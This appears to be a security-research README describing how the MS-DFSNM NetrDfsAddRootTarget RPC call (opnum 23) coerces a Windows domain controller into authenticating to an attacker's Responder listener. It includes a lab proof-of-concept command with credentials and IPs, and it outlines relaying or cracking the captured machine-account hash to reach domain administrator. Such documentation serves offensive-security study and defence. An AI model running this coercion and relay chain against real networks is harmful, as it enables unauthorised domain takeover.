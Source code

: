 # MS-DFSNM - Remote call to NetrDfsAddRootTarget (opnum 23)

## Summary

+ **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

+ **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

+ **Protocol version**: 3.0

+ **SMB Named pipe**: ``

+ **Function name**: [`NetrDfsAddRootTarget`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/f015b511-d56f-4e93-a106-879e93a5c200)

+ **Function operation number**: `23`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsAddRootTarget`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/f015b511-d56f-4e93-a106-879e93a5c200) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsAddRootTarget('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrDfsAddRootTarget(
   [in, unique, string] LPWSTR pDfsPath,
   [in, unique, string] LPWSTR pTargetPath,
   [in] ULONG MajorVersion,
   [in, unique, string] LPWSTR pComment,
   [in] BOOLEAN NewNamespace,
   [in] ULONG Flags
 );
```

## References

+ Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

+ Documentation of function `NetrDfsAddRootTarget`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/f015b511-d56f-4e93-a106-879e93a5c200